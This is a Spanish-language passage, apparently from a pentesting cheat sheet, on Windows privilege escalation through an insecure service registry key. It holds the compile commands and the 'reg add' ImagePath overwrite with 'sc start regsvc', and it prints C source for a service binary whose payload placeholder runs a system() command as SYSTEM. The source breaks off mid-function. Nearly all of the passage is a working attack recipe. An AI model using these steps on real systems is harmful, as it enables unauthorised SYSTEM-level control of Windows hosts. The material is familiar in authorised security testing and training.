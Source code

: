 Modificar de **windows_service.c** (código fuente a continuación) el payload de system y compilar:

```bash
sudo apt install gcc-mingw-w64
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

Copiar `x.exe` a windows y ejecutar:

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
```

Código fuente de **windows_service.c**.

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
```